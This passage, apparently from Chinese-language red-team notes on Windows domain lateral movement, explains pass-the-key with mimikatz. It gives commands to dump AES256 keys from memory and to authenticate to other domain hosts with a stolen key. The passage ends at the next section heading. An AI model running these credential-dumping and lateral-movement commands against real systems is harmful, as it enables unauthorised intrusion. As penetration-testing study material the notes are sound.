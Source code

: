 [![](assets/1702372940-70d52ce936d25fa8be8e3f6148bc6936.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/24.png)

## [](#PTK-mimikatz "PTK-mimikatz")PTK-mimikatz[](#PTK-mimikatz)

如果禁用了 ntlm 认证，PsExec 无法利用获得的 ntlm hash 进行远程连接，但是使用 mimikatz 还是可以攻击成功。对于`8.1/2012r2`，安装补丁 kb2871997 的`Win 7/2008r2/8/2012`等，可以使用 AES keys 代替 NT hash 来实现 ptk 攻击

-   **pth**：没打补丁用户都可以连接，打了补丁只能 administrator 连接
-   **ptk**：打了补丁才能用户都可以连接，采用 aes256 连接

1.  首先使用 mimikatz 获取 aes256

```plain
mimikatz sekurlsa::ekeys
```

2.  攻击该域内其它主机，成功后返回 cmd

```bash
mimikatz sekurlsa::pth /user:administrator /domain:god /aes256:d55913af88d543d2411109270ea36c1c29a71de7a3156d61cd6989feb0f1ae
```

## [](#PTT-ms14068 "PTT-ms14068")PTT-ms14068[](#PTT-ms14068)

